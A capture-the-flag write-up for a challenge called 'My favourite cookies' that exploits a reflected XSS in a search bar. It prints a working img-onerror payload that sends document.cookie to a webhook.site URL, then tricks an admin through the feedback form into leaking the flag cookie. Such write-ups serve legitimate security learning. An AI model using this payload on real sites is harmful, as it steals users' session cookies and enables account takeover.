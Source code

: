 # Challenge `My favourite cookies` writeup

- Vulnerability: XSS vulnerability
- Where: *Search* bar
- Impact: We can inject any code in the *search* bar that will be reflected in the web browser. This code can include a link to a website you are controlling and by doing a request to it you can collect the cookies of who did the request

## Steps to reproduce

1. On the online service **Webhook** save the URL that is provided to you (e.g. *https://webhook.site/f48996ee-018f-4ca1-9fa7-fabd21d53ea8*). You can make requests to this URL and observe the content of that requests
2. On the *Search* bar inject the following code: `<img src=x onerror="this.src='https://webhook.site/f48996ee-018f-4ca1-9fa7-fabd21d53ea8?c='+document.cookie; this.removeAttribute('onerror');">`. We use the **img** tag since it can have an URL value on the **src** parameter
3. Click on *Search* 
4. This time we want the admin's cookies so we have to lure the admin to click the link with the vulnerability we found. On the Feedback part of the website there a place where you can insert text and on the **Link of the bug/feature request you want to report on.** section appears the code we searched in URL format. If we click on *Submit* it will do a request to that website
5. Access the Webhook site again and it will appear a new GET request with a query *c* whose value is the admin's cookies (`?c='+document.cookie`)
6. In the admin's cookies there is a cookie called **SECRET** whose value is the flag




